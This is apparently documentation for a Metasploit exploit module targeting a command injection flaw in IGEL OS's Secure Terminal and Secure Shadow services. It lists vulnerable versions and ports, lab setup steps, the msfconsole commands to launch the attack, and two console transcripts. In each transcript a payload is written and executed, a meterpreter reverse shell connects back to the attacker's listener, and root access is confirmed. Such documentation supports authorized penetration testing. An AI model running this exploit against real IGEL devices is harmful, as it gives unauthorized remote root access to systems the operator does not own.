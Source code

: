 ## Vulnerable Application

IGEL OS before 11.04.270 and 10.06.220 are vulnerable to remote command execution into a `system()` call via Secure Terminal and Secure
Shadow services.

This module uses the vulnerability to modify certain systemd limits for the targeted service before transfering the payload; this is done
to increase payload transfer throughput and preserve service stability.  After exploitation these changes are reverted.

Secure Terminal/telnet_ssl_connector:   30022/tcp
Secure Shadow/vnc_ssl_connector:        5900/tcp


## Verification Steps

Download Vulnerable IGEL OS version (e.g. 11.04.130) from: https://www.igel.com/software-downloads/workspace-edition/.

Unpack downloaded zip file and create a VM using the included .iso.

Navigate through the installation menus to install the firmware, reboot when prompted

After rebooted work through the presented configuration wizard.  In the Activation section use the starter license (selected by default).
Skip the ICG Agent Setup.  Upon completion the system will reboot again.

### Turn on vulnerable services

1. Click on the launcher menu
2. Click on the gear icon
3. Select "Setup" from the Application menu to launch the Setup app
4. Enable vulnerable VNC service wrapper
    1. Under the configuration menu on the left Navigate to: System > Remote Access > Shadow.
    2. Ensure "Allow remote shadowing" and "Secure mode" are checked.
5. Enable vulnerable terminal wrapper
    1. Under the configuration menu on the left Navigate to: System > Remote Access > Secure Terminal.
    2. Ensure "Secure Terminal" is checked.

### Exploitation

1. start msfconsole
2. `use exploit/linux/misc/igel_command_injection`
3. `set RHOST [TARGET IP]`
4. `set RPORT [30022 or 5900]`
5. `set LHOST [LOCAL IP]`
6. `exploit`

### Misc

To obtain the IGEL's IP address to test against click the up/down arrows on the right side of the task bar then click "More Details".
A shell is available on a virtual console by ctrl+alt+F11, switch back to the GUI with ctrl+alt+F1.

This module has been successfully tested against IGEL OS 11.04.130 and 10.05.500.

## Options

## Scenarios

### IGEL OS 11.04.130

Targeting the Secure Terminal service (30022/tcp):

```
msf6 > use exploit/linux/misc/igel_command_injection 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/igel_command_injection) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/igel_command_injection) > set RHOST 192.168.120.224
RHOST => 192.168.120.224
msf6 exploit(linux/misc/igel_command_injection) > check
[*] 192.168.120.224:30022 - The target appears to be vulnerable.
msf6 exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.120.225:4444 
[*] 192.168.120.224:30022 - Overriding igel-telnet-ssl-connector.service StartLimitBurst
[*] 192.168.120.224:30022 - Overriding igel-telnet-ssl-connector.socket TriggerLimitBurst
[*] 192.168.120.224:30022 - Writing payload to file /tmp/CPr9.
[*] 192.168.120.224:30022 - Executing payload /tmp/CPr9.
[*] 192.168.120.224:30022 - Removing payload file /tmp/CPr9.
[*] Sending stage (39324 bytes) to 192.168.120.224
[*] Meterpreter session 1 opened (192.168.120.225:4444 -> 192.168.120.224:48130) at 2021-03-25 12:29:45 -0400
[*] 192.168.120.224:30022 - Removing override for igel-telnet-ssl-connector.service
[*] 192.168.120.224:30022 - Removing override for igel-telnet-ssl-connector.socket

meterpreter > getuid
Server username: root
meterpreter > 
```

### IGEL OS 10.05.500

Targeting the Secure Shadowing service (5900/tcp):

```
msf6 > use exploit/linux/misc/igel_command_injection 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/igel_command_injection) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/igel_command_injection) > set RHOST 192.168.120.226
RHOST => 192.168.120.226
msf6 exploit(linux/misc/igel_command_injection) > set RPORT 5900
RPORT => 5900
msf6 exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.120.225:4444 
[*] 192.168.120.226:5900 - Overriding igel-vnc-ssl-connector.service StartLimitBurst
[*] 192.168.120.226:5900 - Overriding igel-vnc-ssl-connector.socket TriggerLimitBurst
[*] 192.168.120.226:5900 - Writing payload to file /tmp/lSmU.
[*] 192.168.120.226:5900 - Executing payload /tmp/lSmU.
[*] 192.168.120.226:5900 - Removing payload file /tmp/lSmU.
[*] Sending stage (39328 bytes) to 192.168.120.226
[*] 192.168.120.226:5900 - Removing override for igel-vnc-ssl-connector.service
[*] 192.168.120.226:5900 - Removing override for igel-vnc-ssl-connector.socket
[*] Meterpreter session 1 opened (192.168.120.225:4444 -> 192.168.120.226:55144) at 2021-03-25 12:48:34 -0400

meterpreter > getuid
Server username: root
meterpreter > 
```
